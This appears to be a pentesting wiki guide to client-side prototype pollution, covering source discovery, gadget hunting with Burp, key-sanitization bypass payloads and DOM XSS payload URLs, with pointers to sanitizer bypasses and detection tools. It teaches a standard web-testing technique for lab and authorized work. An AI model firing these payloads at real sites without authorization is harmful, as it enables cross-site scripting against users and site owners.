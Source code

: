 # Client-Side Prototype Pollution

## Introduction

Client-side prototype pollution is a powerful vulnerability that allows attackers to manipulate JavaScript's global objects by injecting properties into prototypes. This guide will walk you through the process of identifying and exploiting these vulnerabilities, both manually and using automated tools like DOM Invader. You’ll also get hands-on practice exploiting prototype pollution for DOM-based Cross-Site Scripting (XSS) on intentionally vulnerable labs.

## What is Prototype Pollution?

Prototype pollution refers to the ability to inject properties into JavaScript’s global `Object.prototype`. This allows attackers to manipulate object behavior across the application, leading to severe security issues such as DOM-based XSS. Understanding the basic concepts of sources, sinks, and gadgets is crucial to mastering this vulnerability.

## Finding Client-Side Prototype Pollution Sources Manually

**High-Level Steps:**

1.  **Inject Arbitrary Properties**: Attempt to inject properties into the `Object.prototype` using the query string, URL fragment, or JSON input. For example:

    ```javascript
    vulnerable-website.com/?__proto__[foo]=bar
    ```
2.  **Inspect the Prototype**: Use the browser console to check if the property was successfully added:

    ```javascript
    Object.prototype.foo
    ```
3.  **Try Different Techniques**: If unsuccessful, alternate between dot notation and bracket notation:

    ```javascript
    vulnerable-website.com/?__proto__.foo=bar
    ```
4. **Explore Alternative Vectors**: If direct injection fails, attempt to exploit the prototype via its constructor.

## Identifying Gadgets for Exploitation

Once you’ve identified a source, the next step is to find gadgets—pieces of code that can be exploited using the polluted properties.

**Manual Gadget Hunting:**

1. Look through the source code and identify any properties that are used by the application or any libraries that it imports.
2. In Burp, enable response interception (**Proxy > Options > Intercept server responses**) and intercept the response containing the JavaScript that you want to test.
3. Add a `debugger` statement at the start of the script, then forward any remaining requests and responses.
4. In Burp's browser, go to the page on which the target script is loaded. The `debugger` statement pauses execution of the script.
5. While the script is still paused, switch to the console and enter the following command, replacing `YOUR-PROPERTY` with one of the properties that you think is a potential gadget:

```
Object.defineProperty(Object.prototype, 'YOUR-PROPERTY', {
    get() {
        console.trace();
        return 'polluted';
    }
})
```

The property is added to the global `Object.prototype`, and the browser will log a stack trace to the console whenever it is accessed.

6. Press the button to continue execution of the script and monitor the console. If a stack trace appears, this confirms that the property was accessed somewhere within the application.
7. Expand the stack trace and use the provided link to jump to the line of code where the property is being read.
8. Using the browser's debugger controls, step through each phase of execution to see if the property is passed to a sink, such as `innerHTML` or `eval()`.
9. Repeat this process for any properties that you think are potential gadgets.

## Exploitation

### Bypasses

#### Prototype Pollution via the Constructor

Apart from the classic `__proto__` vector, attackers can also exploit the `constructor` property of JavaScript objects. By manipulating the constructor, you can gain access to the object’s prototype and pollute it without relying on the `__proto__` string.

#### Bypassing Flawed Key Sanitization

A common defense against prototype pollution is sanitizing property keys before merging them into objects. However, flawed sanitization processes that fail to recursively strip dangerous keys can be bypassed using creative input crafting.

```http
https://example.com/?__proto__[foo]=bar
https://example.com/?__proto__.foo=bar
https://example.com/?constructor.[prototype][foo]=bar
https://example.com/?constructor.prototype.foo=bar
# Bypass sanitization
https://example.com/?__pro__proto__to__[foo]=bar
https://example.com/?__pro__proto__to__.foo=bar
https://example.com/?constconstructorructor[prototype][foo]=bar
https://example.com/?constconstructorructor.prototype.foo=bar
https://example.com/?constconstructorructor[protoprototypetype][foo]=bar
https://example.com/?constconstructorructor.protoprototypetype.foo=bar
```

### Exploit to DOM XSS

If our payload affects an HTML element after loading, we can inject DOM-based XSS as below.\
Assume the key name of the property is "source\_url", whose value is loaded as "src" in a `script` element. What property name is defined might be found by investigating JavaScript code assigned in the website.

```http
https://example.com/?__proto__[source_url]=data:,alert(1);
https://example.com/?__proto__[source_url]=data:,alert(1);
https://example.com/?__proto__[source_url]=alert(1)-
```

### **Bypass HTML sanitizers**

{% embed url="https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/" %}

Research has shown that certain HTML sanitizers like `sanitize-html` and `DOMPurify` can be bypassed using prototype pollution gadgets. Understanding how to exploit these sanitizers can elevate your attack strategy.

* **sanitize-html**

<figure><img src="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-5-1024x137.png" alt="" height="137" width="1024"><figcaption></figcaption></figure>

* XSS

{% embed url="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png" %}

*   #### dompurify



<figure><img src="../../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>

## Tools for Detecting Prototype Pollution

* [**ppfuzz**](https://github.com/dwisiswant0/ppfuzz): A tool for fuzzing and finding prototype pollution vulnerabilities.
* [**ppmap**](https://github.com/kleiton0x00/ppmap): A map of known prototype pollution vulnerabilities in JavaScript libraries.
* [**proto-find**](https://github.com/kosmosec/proto-find): A tool for finding prototype pollution sources.
* [**PPScan**](https://github.com/msrkp/PPScan): A browser extension for automatically scanning web pages for prototype pollution vulnerabilities.
* [Dom-Invador](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution): Burp Browser Extension Automating Hunting for pp

## Resources

* [PortSwigger Web Security](https://portswigger.net/web-security/prototype-pollution/client-side)
* [Intigriti Revenge Challenge Writeup](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)
* [GitHub - Client-Side Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution)
* [Khaled-Sakr Video](https://www.youtube.com/watch?v=xc7iilyFCWA)
* [pp-research](https://blog.s1r1us.ninja/research/PP)
* [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)
* [https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/client-side-prototype-pollution#finding-script-gadgets](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/client-side-prototype-pollution#finding-script-gadgets)
* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
* [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)
* [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
* [https://github.com/HacKeD0x90/Prototype\_Pollution](https://github.com/HacKeD0x90/Prototype\_Pollution)
